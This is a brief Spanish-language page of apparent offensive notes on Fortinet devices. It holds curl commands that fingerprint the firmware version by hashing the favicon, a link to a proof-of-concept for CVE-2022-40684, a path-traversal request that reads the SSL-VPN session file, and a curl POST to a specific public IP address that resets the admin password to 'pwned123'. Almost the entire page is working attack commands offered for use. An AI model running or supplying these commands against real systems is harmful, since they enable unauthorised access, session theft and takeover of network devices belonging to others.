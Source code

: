 ```yaml
---
layout: default
title: Fortinet
---
```



```bash
curl -k https://fortinet/favicon.ico -o favicon.ico
curl -k https://fortinet/favicon/favicon.ico -o favicon.ico
md5sum favicon.ico
```

Se lo pasas a chat gpt y te dice la versión

[GitHub - horizon3ai/CVE-2022-40684: A proof of concept exploit for CVE-2022-40684 affecting Fortinet FortiOS, FortiProxy, and FortiSwitchManager](https://github.com/horizon3ai/CVE-2022-40684)

remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession

```bash
curl -X POST https://31.121.39.18:445/change_pass -k   -H "Content-Type: application/json"   -d '{
    "username": "admin",
    "newpass": "pwned123",
    "confirm": "pwned123"
  }'
```
